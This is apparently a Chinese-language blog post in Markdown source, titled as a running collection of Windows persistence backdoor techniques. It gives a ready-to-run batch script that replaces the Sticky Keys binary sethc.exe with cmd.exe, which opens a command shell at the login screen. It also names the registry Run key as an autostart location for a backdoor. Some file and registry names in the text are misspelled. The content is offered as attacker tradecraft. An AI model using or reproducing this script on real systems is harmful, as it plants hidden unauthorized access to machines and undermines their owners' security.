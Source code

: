 ```yaml
---
layout: post
title: 持久化后门维持-Windows篇(updating)
---
```


> 文章长期更新，用来统计收集后门维持的各种方法。



## 0x01 shift后门(替换系统文件)

通过修改`setch.exe`来达到持久化后门

在低版本的windows中，我们可以直接把*C:\Windows\System32\\*下*setch.exe*

替换成我们的后门程序，在登陆界面按5次shift即可出现cmd

![0x01](https://tva1.sinaimg.cn/large/00831rSTly1gcxuu947nsj31500dmabt.jpg)

![0x02](https://tva1.sinaimg.cn/large/00831rSTly1gcy1rc9ccsj314k0lq411.jpg)



![0x03](https://tva1.sinaimg.cn/large/00831rSTly1gcxwxpnwzoj30hy0i6ab8.jpg)

```bash
@echo off
c:
cd\
cd Windows\System32
icacls sethc.exe /grant Administrator:f
del sethc.exe 
copy cmd.exe sethc.exe
pause&&exit
```

保存为.bat文件运行即可留下shift后门

---

###  0x02 注册表自启动

> 最常见的在指定键值添加一个新的键值类型为REG_SZ,数据项中添写需要运行程序的路径即可以启动，此类操作一些较为敏感容易被本地AV拦截，目前也是较为常见的一种方式。

*HKEY_LOCAL_MACHINE\SOFTWARE\Microft\windows\currentversion\run*

![0x04](https://tva1.sinaimg.cn/large/00831rSTly1gcy2iagbjuj317q0l4n3h.jpg)

<img src="https://tva1.sinaimg.cn/large/00831rSTly1gcy2lfca5ej32ls0n617q.jpg" alt="0x04" style="zoom:150%;" />




